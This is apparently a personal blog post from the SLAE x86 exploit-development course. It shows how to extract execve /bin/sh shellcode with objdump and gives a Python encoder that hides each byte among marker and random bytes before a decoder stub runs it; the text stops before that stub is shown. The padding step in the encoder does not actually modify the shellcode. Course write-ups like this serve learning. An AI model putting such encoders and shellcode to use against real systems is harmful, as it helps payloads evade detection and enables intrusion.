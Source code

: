 ```yaml
---
title:  "SLAE x86 Assignment 4: Custom Encoding Scheme"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 4 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
This assignment requires us to write a custom encoding scheme, accompanied with a decoding stub in order for the shellcode to be executed. So this is my take on this assignment:

- First, a python script will be used to encode the shellcode. Each byte of the shellcode will be appended by 0xAA, followed by a random number.
- The decoder will be written in assembly. This decoder stub will contain our encoded shellcode. Once the shellcode has been decoded, execution will be passed to it.

So let's start with the encoder script! We will first need to extract the ```execve-stack``` shellcode:
```
$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
#SLAE x86 Assignment 4: Custom Encoder Script
#Author: 4p0cryph0n
#Website: https://4p0cryph0n.github.io

#!/usr/bin/python

import sys
import random

execve = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#If length is an odd no. add a nop at the end to make even

if len(bytearray(execve)) % 2 != 0:
	bytearray(execve).append(0x90)

encoded2 = ""

#add 0xaa followed by a random byte after each byte of the shellcode

for x in bytearray(execve):

	encoded2 += '0x'
	encoded2 += '%02x,' % x
	encoded2 += '0x%02x,' % 0xAA + '0x%02x,' % random.randint(1,255)

print encoded2
```
This script will first check whether the length of the shellcode is odd or even, depending upon which it will add a ```NOP``` at the end. This is to help with encoding groups of bytes. Then, the encoding process starts, and is outputted in a format which is supported by nasm. I will manually be adding a byte at the end of this output, which will serve as a marker. This will tell our decoder stub when to stop with the decoding. This byte will be ```\xde```.
